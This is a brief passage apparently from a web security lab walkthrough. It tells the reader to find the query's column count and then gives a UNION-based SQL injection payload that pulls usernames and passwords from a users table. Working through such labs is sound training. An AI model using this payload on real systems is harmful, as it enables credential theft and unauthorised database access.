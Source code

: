Firstly, Determine the number of columns that are being returned by the query and which columns contain text data same as we done in previous labs.

Now, use Payload:
```sql
'UNION SELECT username,password FROM users--+
```
